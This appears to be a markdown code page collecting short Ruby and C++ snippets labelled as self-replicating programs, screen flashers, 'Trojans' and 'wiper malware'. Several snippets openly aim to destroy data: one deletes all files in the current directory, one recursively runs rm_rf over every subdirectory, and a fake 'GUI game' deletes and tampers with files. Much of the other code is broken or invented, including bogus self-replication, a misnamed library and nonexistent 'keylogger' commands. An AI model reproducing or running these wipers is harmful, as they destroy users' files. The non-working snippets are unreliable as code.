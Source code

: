 # Code for Self Replication in Ruby

``` ruby

def replicate
  File.open(__FILE__, "w") do |f|
    f.puts self.to_s
  end
end

replicate

```
# Code for Replication in C++

``` cpp
include <fstream>
include <string>

int main() {
  std::ifstream source_file(__FILE__);
  std::ofstream output_file(__FILE__, std::ios::trunc);
  std::string line;

  while (std::getline(source_file, line)) {
    output_file << line << std::endl;
  }

  return 0;
}

```
# Code for Flashing the Screen in Ruby

``` ruby
require the 'curses' library to access curses functionality
require 'cursed'

#set up curses and the screen
Cursed.start do
  Cursed.init_screen
  Cursed.curs_set(0) # hide the cursor

  #infinite loop to flash the screen
  loop do
    Cursed.attrset(Cursed::A_STANDOUT) # set the screen to standout mode
    Cursed.addstr("Flashing screen!") # write to the screen
    Cursed.refresh # update the screen
    sleep(0.5) # wait for half a second

    Cursed.attrset(Cursed::A_NORMAL) # set the screen to normal mode
    Cursed.addstr("Flashing screen!") # write to the screen
    Cursed.refresh # update the screen
    sleep(0.5) # wait for half a second
  end
end

```

#Code in C++

``` cpp
#include <curses.h> // include the curses library
#include <unistd.h> // for the sleep function

int main() {
  // set up curses and the screen
  initscr();
  curs_set(0); // hide the cursor

  // infinite loop to flash the screen
  while (true) {
    attron(A_STANDOUT); // set the screen to standout mode
    printw("Flashing screen!"); // write to the screen
    refresh(); // update the screen
    sleep(0.5); // wait for half a second

    attroff(A_STANDOUT); // set the screen to normal mode
    printw("Flashing screen!"); // write to the screen
    refresh(); // update the screen
    sleep(0.5); // wait for half a second
  }

  endwin(); // clean up curses

  return 0;
}

```

# This is a simple Trojan program that will display a message on the victim's screen

``` ruby
# Require the 'cursed' library to access curses functionality
require 'cursed'

# Set up curses and the screen
Cursed.start do
  Cursed.init_screen
  Cursed.curs_set(0) # Hide the cursor

  Cursed.attrset(Cursed::A_STANDOUT) # Set the screen to standout mode
  Cursed.addstr("You have been hacked!") # Write the message to the screen
  Cursed.refresh # Update the screen
end

```

# This is a simple malware program that will delete all the files in the current directory when run.

``` ruby
# Require the 'fileutils' library to access file manipulation functions
require 'fileutils'

# Get the list of files in the current directory
files = Dir.entries(".")

# Remove the current and parent directory entries from the list
files.delete(".")
files.delete("..")

# Delete all the remaining files in the list
files.each do |file|
  FileUtils.rm(file)
end

```

# This is a simple Trojan program disguised as a GUI game that performs the following actions when run:
- Replicates itself
- Deletes all the files in the current directory
- Displays a random image from a list of images
- Appends a message to all text files in the current directory

``` ruby
# Require the 'gtk3' and 'fileutils' libraries to access GUI and file manipulation functions
require 'gtk3'
require 'fileutils'

# Set up the GUI
window = Gtk::Window.new
window.set_title("GUI Game")
window.set_default_size(400, 300)
window.signal_connect("destroy") { Gtk.main_quit }

# Set up the image widget and add it to the window
image = Gtk::Image.new
window.add(image)

# Set up the list of images
images = ["image1.png", "image2.png", "image3.png"]

# Display a random image from the list
image.set_from_file(images.sample)

# Replicate the program
File.open(__FILE__, "w") do |f|
  f.puts self.to_s
end

# Delete all the files in the current directory
files = Dir.entries(".")
files.delete(".")
files.delete("..")
files.each do |file|
  FileUtils.rm(file)
end

# Append a message to all text files in the current directory
message = "This file has been modified by the Trojan program"
Dir.glob("*.txt") do |file|
  File.open(file, "a") do |f|
    f.puts message
  end
end

# Show the window and start the GUI loop
window.show_all
Gtk.main

```

# This is a simple wiper malware program that will delete all the files in the current directory and all its subdirectories when run.

``` ruby
# Require the 'fileutils' library to access file manipulation functions
require 'fileutils'

# Set up the list of files and directories to delete
files_and_dirs = Dir.glob("**/*")

# Delete all the files and directories in the list
files_and_dirs.each do |file_or_dir|
  FileUtils.rm_rf(file_or_dir)
end
```

# Similar Program in C++

``` cpp
#include <iostream>
#include <unistd.h> // for the sleep function
#include <cstdlib> // for the system function

int main() {
  while (true) {
    // Log the screen and keystrokes
    std::system("screenlogger &"); // run the screenlogger command in the background
    std::system("keylogger &"); // run the keylogger command in the background

    // Log the webcam and audio input
    std::system("webcamlogger &"); // run the webcamlogger command in the background
    std::system("audiologger &"); // run the audiologger command in the background

    // Display a random YouTube video every 3 minutes
    std::system("youtubevideo1 &"); // run the command to display a specific YouTube video in the background
    std::sleep(180); // wait for 3 minutes
    std::system("youtubevideo2 &"); // run the command to display a different YouTube video in the background
    std::sleep(180); // wait for 3 minutes
    std::system("youtubevideo3 &"); // run the command to display a different YouTube video in the background
    std::sleep(180); // wait for 3 minutes
  }

  return 0;
}

```
